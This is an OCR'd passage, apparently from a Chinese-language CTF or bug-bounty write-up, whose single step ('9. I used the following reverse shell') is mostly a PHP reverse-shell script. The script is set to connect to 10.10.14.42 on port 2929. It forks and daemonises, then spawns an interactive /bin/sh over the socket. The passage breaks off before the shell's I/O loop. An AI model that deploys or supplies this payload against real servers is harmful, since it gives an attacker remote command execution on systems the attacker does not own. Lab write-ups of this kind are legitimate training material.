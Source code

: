 9.我用下面的[反壳](https://github.com/Cyberw1ng/Bug-Bounty/blob/main/rev_shell.php)

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.42';  // CHANGE THIS
$port = 2929;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {

 $pid = pcntl_fork();

 if ($pid == -1) {
  printit("ERROR: Can't fork");
  exit(1);
 }

 if ($pid) {
  exit(0);  
 }

 if (posix_setsid() == -1) {
  printit("Error: Can't setsid()");
  exit(1);
 }

 $daemon = 1;
} else {
 printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
 printit("$errstr ($errno)");
 exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
 printit("ERROR: Can't spawn shell");
 exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
```